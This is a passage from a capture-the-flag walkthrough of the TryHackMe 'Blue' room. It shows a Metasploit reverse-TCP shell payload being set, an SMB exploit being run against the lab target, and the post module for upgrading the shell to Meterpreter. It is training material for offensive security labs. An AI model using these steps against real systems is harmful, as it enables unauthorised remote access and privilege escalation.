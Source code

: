```
set payload windows/x64/shell/reverse_tcp
```

**With that done, run the exploit!**

> No answer required

![Executing SMB Exploit on Target](images/thm-blue/executing-exploit.png)

**Note:** When we run the exploit it might fail on the first try but it should be able to connect automatically on the second try. If the exploit runs successfully we should be an shell session

![Remote Access to Target System Gained](images/thm-blue/remote-access-gained.png)

### Task 3 : Escalation

1. **If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)**

> post/multi/manage/shell_to_meterpreter

![Meterpreter Options](images/thm-blue/meterpreter-options.png)
